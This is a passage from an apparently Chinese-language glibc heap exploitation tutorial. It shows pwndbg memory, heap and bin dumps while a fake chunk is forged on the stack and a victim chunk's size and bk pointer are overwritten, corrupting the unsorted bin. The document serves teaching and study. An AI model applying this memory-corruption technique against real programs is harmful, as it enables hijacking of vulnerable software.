 然后我们修改一下栈的布局

```
pwndbg&gt; x/10gx stack_buffer
0x7fffffffe5b0: 0x0000000000000000      0x0000000000000110
0x7fffffffe5c0: 0x0000000000000000      0x00007fffffffe5b0
0x7fffffffe5d0: 0x00007fffffffe6c0      0xae78811595436300
0x7fffffffe5e0: 0x0000000000400870      0x00007ffff7a2d830
0x7fffffffe5f0: 0x0000000000000000      0x00007fffffffe6c8
```

此时我们已经伪造了一个fake chunk,紧接着再覆写victim的size和bk指针

```
pwndbg&gt; x/10gx victim-2
0x602000:       0x0000000000000000      0x0000000000000020
0x602010:       0x00007ffff7dd1b78      0x00007fffffffe5b0
0x602020:       0x0000000000000000      0x0000000000000000
0x602030:       0x0000000000000000      0x0000000000000000
0x602040:       0x0000000000000000      0x0000000000000000
pwndbg&gt; heap
0x602000 `{`
  prev_size = 0,
  size = 32,
  fd = 0x7ffff7dd1b78 &lt;main_arena+88&gt;,
  bk = 0x7fffffffe5b0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
`}`
0x602020 `{`
  prev_size = 0,
  size = 0,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
`}`
pwndbg&gt; bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all [corrupted]
FD: 0x602000 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x602000
BK: 0x602000 —▸ 0x7fffffffe5b0 ◂— 0x7fffffffe5b0
smallbins
empty
largebins
empty
```
